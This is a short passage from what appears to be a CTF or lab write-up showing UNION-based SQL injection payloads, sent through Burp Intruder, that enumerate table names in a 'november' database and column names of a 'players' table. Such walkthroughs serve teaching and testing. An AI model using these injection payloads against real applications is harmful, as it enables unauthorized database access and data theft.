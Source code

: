 ![SQLi - Burp - Intruder](images/sqli_player_burp_intruder_results.png)

```bash
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 0-- -
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 1-- -
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 2-- -
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 3-- -
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 4-- -
```

![SQLi - Burp - Intruder](images/sqli_player_burp_intruder_db_tables.png)

```bash
' union all select concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='players' limit 1 offset 0-- -
' union all select concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='players' limit 1 offset 1-- -
' union all select concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='players' limit 1 offset 2-- -
```
